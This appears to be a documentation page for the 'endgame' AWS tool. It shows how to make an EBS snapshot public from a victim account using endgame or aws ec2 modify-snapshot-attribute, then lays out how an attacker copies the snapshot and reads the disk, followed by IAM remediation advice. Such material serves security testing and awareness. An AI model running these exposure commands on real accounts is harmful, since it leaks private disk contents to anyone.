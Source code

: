 # EBS Snapshot Exposure

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*
export SNAPSHOT_ID=snap-1234567890abcdef0

endgame expose --service ebs --name $SNAPSHOT_ID
```

* To expose the resource using the AWS CLI, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 modify-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission \
    --operation-type add \
    --group-names all
```

* To verify that the snapshot has been shared with the public, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 describe-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission
```

* Observe that the contents match the example shown below.

## Example

The response of `aws ec2 describe-snapshot-attribute` will match the below, indicating that the EBS snapshot is public.

```json
{
    "SnapshotId": "snap-066877671789bd71b",
    "CreateVolumePermissions": [
        {
            "Group": "all"
        }
    ]
}
```

## Exploitation

After an EBS Snapshot is made public, an attacker can then:
* [copy the public snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html) to their own account
* Use the snapshot to create an EBS volume
* Attach the EBS volume to their own EC2 instance and browse the contents of the disk, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that EBS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the EBS Snapshot.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EBS Snapshots**: Tightly control access to the following IAM actions:
  - [ec2:ModifySnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_ModifySnapshotAttribute.html): _Grants permission to add or remove permission settings for a snapshot_
  - [ec2:DescribeSnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshotAttribute.html): _Grants permission to describe an attribute of a snapshot. This includes information on which accounts the snapshot has been shared with._
  - [ec2:DescribeSnapshots](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshots.html): _Grants permission to describe one or more EBS snapshots_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [Sharing an Unencrypted Snapshot using the Console](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html#share-unencrypted-snapshot)
* [Share a snapshot using the command line](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html)
* [aws ec2 copy-snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html)